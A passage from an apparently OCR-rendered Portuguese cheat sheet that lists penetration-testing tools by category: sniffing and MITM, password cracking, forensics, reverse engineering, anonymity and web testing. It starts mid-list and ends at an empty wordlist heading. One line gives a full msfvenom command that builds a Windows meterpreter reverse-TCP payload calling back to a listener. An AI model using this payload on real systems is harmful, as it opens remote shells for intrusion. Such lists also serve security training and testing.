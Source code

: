 Wireshark: Captura e analisa pacotes de rede.

Ettercap: Realiza ataques man-in-the-middle (MITM) para interceptar tráfego.

Aircrack-ng: Testa a segurança de redes Wi-Fi, incluindo ataques de força bruta em chaves WEP/WPA.


# 6. Cracking de Senhas

John the Ripper: Realiza ataques de dicionário ou força bruta.
Exemplo: Quebrar senhas de arquivos compactados ou sistemas.

Hashcat: Quebra hashes de senhas usando força bruta ou dicionário.


# 7. Forense Computacional

Ferramentas para análise de dispositivos comprometidos.

Autopsy: Recupera dados e arquivos excluídos de sistemas.

Volatility: Analisa dumps de memória para identificar atividades maliciosas.


# 8. Desenvolvimento e Exploração de Malware

Binwalk: Análise de binários.

Radare2: Engenharia reversa de binários.


# 9. Anonimato e Privacidade

Tor Browser: Acesso à internet anonimamente.

Proxychains: Encaminha tráfego através de proxies para ocultar a origem.


# 10. Ataques a Aplicações Web

Burp Suite: Ferramenta de interceptação e modificação de requisições HTTP.

OWASP ZAP: Identifica vulnerabilidades em aplicações web.


# 11. Criação de Exploits

Msfvenom: Criação de payloads maliciosos.
Exemplo: msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe -o payload.exe.


# 12. Gestão de Wordlists
